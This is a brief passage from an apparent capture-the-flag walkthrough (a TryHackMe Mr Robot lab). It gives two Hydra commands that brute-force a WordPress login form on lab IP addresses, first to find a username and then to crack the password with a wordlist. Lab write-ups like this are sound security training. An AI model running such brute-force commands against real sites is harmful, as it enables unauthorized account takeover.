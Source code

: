 # Hydra

Use [Hydra](https://github.com/vanhauser-thc/thc-hydra) to brute force a login page to find username:

```bash
root@kali:~/thm/mrrobot# hydra -L fsocity.dic -p pencer 10.10.175.84 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

Use Hydra to brute force password now we have a username:

```
root@kali:~/thm/mrrobot# hydra -L Elliot -P fsociety.dic 10.10.23.78 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.23.78%2Fwp-admin%2F&testcookie=1:S=302"
```

\
